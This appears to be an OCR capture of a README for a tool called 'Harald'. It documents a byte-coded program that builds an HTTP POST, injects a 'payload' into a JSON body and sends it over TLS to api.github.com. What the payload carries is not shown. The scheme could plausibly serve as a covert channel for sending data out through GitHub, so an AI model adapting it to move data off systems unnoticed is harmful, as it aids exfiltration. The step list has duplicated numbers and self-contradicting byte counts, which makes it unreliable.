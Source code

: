 ```c
'U','s','e','r','-','A','g','e','n','t',':','
','H','a','r','a','l','d','/','0','.','1','b','\r','\n',
'A','c','c','e','p','t',':','
','a','p','p','l','i','c','a','t','i','o','n','/',
'v','n','d','.','g','i','t','h','u','b','+','j','s','o','n','\r','\n',
'C','o','n','t','e','n','t','-','T','y','p','e',':',' ',
'a','p','p','l','i','c','a','t','i','o','n','/',
'x','-','w','w','w','-','f','o','r','m','-',
'u','r','l','e','n','c','o','d','e','d','\r','\n',
'C','o','n','n','e','c','t','i','o','n',':','
','c','l','o','s','e','\r','\n',
'C','o','n','t','e','n','t','-','L','e','n','g','t','h',':',' ',
H_F_COMPUTE_FRAG_LENGTH,
H_F_ADD, 0x00, 0x00, 0x00, 0x00, 0x01, 0x0B, H_REG_RET,
H_F_ENCODE_STR, 0x01, H_REG_RET, 'u',
H_F_INJECT, H_REG_RET,
H_F_APPEND, 0x00, 0x00, 0x00, 0x0D, '\r', '\n', '\r', '\n', '{', '"', 'b',
'o', 'd', 'y', '"', ':', '"',
H_F_PAYLOAD_INJECT,
H_F_APPEND, 0x00, 0x00, 0x00, 0x02, '"', '}',
H_F_SOCK_INIT, 0x00, 0x01, 0x01, 0x00, 0x00, 0x00, 0x0F, 
'a', 'p', 'i', '.',
'g', 'i', 't', 'h', 'u', 'b', '.', 'c', 'o', 'm', '\0', 0x01, 0xBB,
H_F_SEND,
H_F_CLOSE
```

1. Split (0x03) the payload in blocks of up to 0x000000FF Bytes.
2. Append (0x01) the next 0x00000185 Bytes. (POST /repos/... HTTP/1.1\r\n
   Host: domain...) This will include the headers for the GH API, like the
   Authorization, X-GitHubApi-Version, and so on.
3. Calculate fragment length (0x0D). The result is stored in the H_REG_RET
   registry.
4. Add (0x12) a value of length 0x00000001 0x0B to the H_REG_RET registry.
   This will account for the '{"body":""}' characters in the Content-Length
   header.
4. Encode (0x0A) the registry H_REG_RET as a string.
5. Inject (0x09) the information in the return (H_REG_RET) registry into
   the End Payload.
6. Append (0x01) the next 0x0000000D Bytes. (\r\n\r\n{"body":")
7. Inject the payload (0x04).
6. Append (0x01) the next 0x00000002 Bytes. ("})
8. Initialize the Socket (0x05) to connect to a domain using SSL/TLS over a
   TCP socket to the domain defined in the following 16 Bytes (0x0000000F)
   and to the port defined in the following 2 Bytes (0x01BB).
9. Send (0x06) the payload.
10. Close (0x08) the connection.


## Requirements
